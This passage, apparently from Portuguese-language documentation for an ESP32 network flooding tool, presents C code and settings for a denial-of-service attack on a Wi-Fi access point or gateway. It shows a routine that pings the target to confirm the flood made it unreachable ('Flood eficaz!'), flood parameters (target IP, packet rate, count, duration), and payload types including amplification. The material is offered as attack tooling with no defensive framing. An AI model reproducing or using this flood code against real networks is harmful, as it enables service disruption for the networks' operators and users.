 #### 3.5 Monitoramento de Impacto
```c
typedef struct {
    uint32_t baseline_ping_ms;
    uint32_t current_ping_ms;
    float throughput_degradation_percent;
    bool target_unreachable;
    uint32_t packet_loss_percent;
} impact_assessment_t;

void monitor_network_impact(void) {
    static uint32_t last_ping_test = 0;
    uint32_t current_time = xTaskGetTickCount() * portTICK_PERIOD_MS;
    
    if (current_time - last_ping_test > PING_TEST_INTERVAL) {
        // Testar conectividade com alvo
        uint32_t ping_time = test_ping_latency(TARGET_IP);
        
        if (ping_time == 0) {
            ESP_LOGW(TAG, "🚨 ALVO INACESSÍVEL - Flood eficaz!");
            target_unreachable = true;
        } else {
            float degradation = ((float)ping_time / baseline_ping_ms - 1.0) * 100;
            ESP_LOGI(TAG, "📊 Latência: %dms (degradação: %.1f%%)", 
                     ping_time, degradation);
        }
        
        last_ping_test = current_time;
    }
}
```

## Configurações de Ataque

### 1. Parâmetros de Flood
```c
#define TARGET_IP "192.168.4.1"          // IP do alvo (AP/Gateway)
#define TARGET_PACKET_RATE 1000          // Pacotes por segundo
#define MAX_PACKETS 100000               // Máximo de pacotes
#define PAYLOAD_SIZE 1024                // Tamanho do payload
#define FLOOD_DURATION_SEC 60            // Duração em segundos
#define PACKET_SIZE_MIN 64               // Tamanho mínimo
#define PACKET_SIZE_MAX 1500             // Tamanho máximo (MTU)
```

### 2. Tipos de Payload
```c
typedef enum {
    PAYLOAD_RANDOM,      // Dados aleatórios
    PAYLOAD_ZEROS,       // Zeros (otimizado para taxa)
    PAYLOAD_PATTERN,     // Padrão específico
    PAYLOAD_AMPLIFIED    // Dados que causam amplificação
} payload_type_t;
```
